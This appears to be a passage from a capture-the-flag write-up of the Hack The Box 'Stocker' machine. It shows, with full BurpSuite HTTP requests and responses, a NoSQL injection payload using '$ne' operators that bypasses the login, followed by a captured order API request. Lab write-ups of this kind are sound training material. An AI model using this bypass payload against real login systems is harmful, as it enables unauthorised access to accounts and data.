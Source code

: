 1) I visit this site "[NoSQL injection - HackTricks](https://book.hacktricks.xyz/pentesting-web/nosql-injection)" to exploit this vulnerability.
2) Then I intercept with BurpSuite the request of login and I bring the request in the Reapeter, thereby I inject the code json: 
>Request:
```http
POST /login HTTP/1.1
Host: dev.stocker.htb 
Content-Length: 59
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
Origin: http://dev.stocker.htb
Content-Type: application/json
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/108.0.5359.125 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Referer: http://dev.stocker.htb/login
Accept-Encoding: gzip, deflate
Accept-Language: en-US,en;q=0.9
Cookie: connect.sid=s%3AxnBskgl62N3hOD20aVzKQH9k6fx1X3VH.6m8OnUUy6rzNiHuUafwpQFU%2BKAZzeJKcnl8oqbwmkfw
Connection: close

{"username": {"$ne": "foo"}, "password": {"$ne": "bar"} }
```
>Response:
```http
HTTP/1.1 302 Found
Server: nginx/1.18.0 (Ubuntu)
Date: Sun, 22 Jan 2023 19:50:13 GMT
Content-Type: text/html; charset=utf-8
Content-Length: 56
Connection: close
X-Powered-By: Express
Location: /stock
Vary: Accept
```
```html

<p>Found. Redirecting to <a href="/stock">/stock</a></p>
```
3) Now I must reload the page "http://dev.stocker.htb/" and I enter in the site

4) I buy a cup and I click "View Cart" --> "Submit Purchase":
```http
POST /api/order HTTP/1.1
Host: dev.stocker.htb
Content-Length: 162
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/108.0.5359.125 Safari/537.36
Content-Type: application/json
Accept: */*
Origin: http://dev.stocker.htb
Referer: http://dev.stocker.htb/stock
Accept-Encoding: gzip, deflate
Accept-Language: en-US,en;q=0.9
Cookie: connect.sid=s%3Au2leb_5c4zbpJeqwBLbYR3i5an29uEWb.nf31pq5DiaQzBDQ%2BV1YuCWA48u79ovUcpIpdhEvDIpY
Connection: close


{"basket":[{"_id":"638f116eeb060210cbd83a8d","title":"Cup","description":"It's a red cup.","image":"red-cup.jpg","price":32,"currentStock":4,"__v":0,"amount":1}]}
```
